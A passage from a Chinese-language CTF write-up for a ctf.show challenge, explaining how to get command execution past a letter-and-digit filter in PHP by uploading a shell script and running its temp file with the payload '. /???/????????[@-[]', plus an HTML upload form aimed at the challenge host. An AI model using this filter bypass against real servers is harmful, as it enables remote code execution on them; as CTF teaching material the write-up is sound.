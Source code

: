 ##### 方法三：强制文件上传下的无字母数字RCE

在PHP中，强制上传文件时，文件会被存在临时文件/tmp/phpxxxxxx中

这个文件最后六位xxxxxx有大小写字母、数字组成，生命周期只在PHP代码运行时。

题目中正则匹配过滤了大小写字母（i）

故我们要匹配/tmp/phpxxxxxx的话可以用通配符/???/?????????

/???/?????????范围太大了，我们如何缩小范围呢。

查看ascii码表，A前面是@，Z后面是[

/???/????????[@-[]就表示了最后一位是大写

当临时文件最后一位是大写字母时/???/????????[@-[]就能匹配到这个文件

linux中 . 代表执行一个文件，相当于source 可以执行sh命令。

如果上传的文件是一个shell脚本，那么. /???/????????[@-[]（burp里面空格要写成+或者%20）就能执行这个shell脚本，实现RCE。

首先构建一个文件上传的upload.html

![image-20240120192357813](image/image-20240120192357813.png)

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<form action="http://1dd04609-ca53-4e68-a4d7-381957302f31.challenge.ctf.show/" enctype="multipart/form-data" method="post" >

    <input name="file" type="file" />
    <input type="submit" type="gogogo!" />

</form>

</body>
</html>
```
